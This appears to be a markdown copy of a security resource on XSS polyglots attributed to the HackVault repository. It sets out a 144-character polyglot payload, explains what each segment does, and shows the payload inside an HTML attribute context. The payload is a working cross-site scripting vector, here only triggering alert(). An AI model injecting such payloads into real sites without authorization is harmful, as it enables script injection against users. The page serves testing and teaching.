 # ⛏ XSS

**XSS resource **

**Author:** [https://github.com/0xSobky](https://github.com/0xSobky)

[https://github.com/0xSobky/HackVault](https://github.com/0xSobky/HackVault)

[https://github.com/0xSobky/HackVault.git](https://github.com/0xSobky/HackVault.git)

### Foreword:

When it comes to testing for cross-site scripting vulnerabilities (a.k.a. XSS), you’re generally faced with a variety of injection contexts where each of which requires you to alter your injection payload so it suites the specific context at hand. This can be too tedious and time consuming in most cases, but luckily, XSS polyglots can come in handy here to save us a lot of time and effort.

### What is an XSS polyglot?

An XSS polyglot can be generally defined as any XSS vector that is executable within various injection contexts in its raw form.

### So, what polyglot you came up with?&#x20;

`jaVasCript:/`_`-/`_`/*\/`_`'/`_`"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`

### Anatomy of the polyglot (in a nutshell):

* `jaVasCript:`: A label in ECMAScript; a URI scheme otherwise.
* ``/*-/*`/*\`/*'/*"/**/``: A multi-line comment in ECMAScript; a literal-breaker sequence.
* `(/* */oNcliCk=alert() )`: A tangled execution zone wrapped in invoking parenthesis!
* `//%0D%0A%0d%0a//`: A single-line comment in ECMAScript; a double-CRLF in HTTP response headers.
* `</stYle/</titLe/</teXtarEa/</scRipt/--!>`: A sneaky HTML-tag-breaker sequence.
* `\x3csVg/<sVg/oNloAd=alert()//>\x3e`: An innocuous svg element.

**Total length: 144 characters.**

### What injection contexts does it cover?

#### HTML contexts covered:

* **Double-quoted tag attributes:**

```
<input type="text" value="

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

"></input>
```

_Demo: _[_https://jsbin.com/dopepi_](https://jsbin.com/dopepi)
